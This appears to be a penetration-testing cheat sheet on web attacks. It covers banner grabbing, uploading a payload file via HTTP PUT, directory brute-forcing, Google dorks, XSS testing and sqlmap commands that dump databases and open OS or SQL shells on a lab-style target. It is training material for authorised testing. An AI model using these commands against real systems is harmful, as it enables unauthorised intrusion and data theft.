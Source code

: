 ```yaml
---
description: Web application vulns and exploits
---
```


# Web Attacks

## Banner grabbing

### Netcat \(for HTTP services\) <a id="netcat-for-http-services"></a>

```text
nc -v 10.10.10.10 portHEAD / HTTP/1.0
```

### OpenSSL \(for HTTPS services\) <a id="openssl-for-https-services"></a>

```text
openssl s_client -connect 10.10.10.10:443HEAD / HTTP/1.0
```

### Httprint <a id="httprint"></a>

```text
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs <a id="http-verbs"></a>

`GET, POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server <a id="put-is-used-to-upload-a-file-to-the-server"></a>

You have to find the size of the file you are uploading first

```text
wc -m payload.php
[size] payload.php
```

```text
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]

```

### DELETE is used to delete a file from the server <a id="delete-is-used-to-delete-a-file-from-the-server"></a>

```text
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs <a id="options-is-used-to-query-the-webserver-for-enabled-http-verbs"></a>

```text
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning <a id="directory-and-file-scanning"></a>

### Dirbuster <a id="dirbuster"></a>

![Dirbuster](https://gblobscdn.gitbook.com/assets%2F-M_9npUfU_wpKvUX_GaB%2F-MagR4YPOWTFD_15vHvL%2F-MahfUhT53l7HHnpBBge%2Fdirbuster.png?alt=media&token=61b8043d-946f-4850-884f-0fb38c3ae4d7)

### dirb <a id="dirb"></a>

```text
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```text
dirb http://10.10.10.10/ -u <username>:<password>
```

1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt`
2. You can also choose different extensions but _`php`_ and _`bak`_ will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using \[Options -&gt; Advanced Options -&gt; Authentication options\]
4. The con with Dirbuster is that it sometimes freezes which is a real bummer otherwise it's real good.

## Google Dorks <a id="google-dorks"></a>

`site:   
intitle:   
inurl:   
filetype:   
AND, OR & |   
-`

​[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS \(Cross-Site Scripting\) <a id="xss-cross-site-scripting"></a>

1. Find a reflection point
2. Test with HTML tag \(&lt;h1&gt;Test&lt;/h1&gt;\)
3. Test with JS code \[alert\('XSS'\)\]

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)​

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload.

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections <a id="sql-injections"></a>

### GET <a id="get"></a>

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER <a id="database-user"></a>

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases <a id="databases"></a>

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all <a id="dump-all"></a>

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST <a id="post"></a>

Find the parameters that are being passed in POST using BurpSuite.   
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```text
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are the same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find them on its own so don't sweat it and also for most of the prompts use the default options\(i.e. just press enter\).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell <a id="os-shell"></a>

```text
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell <a id="sql-shell"></a>

```text
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```

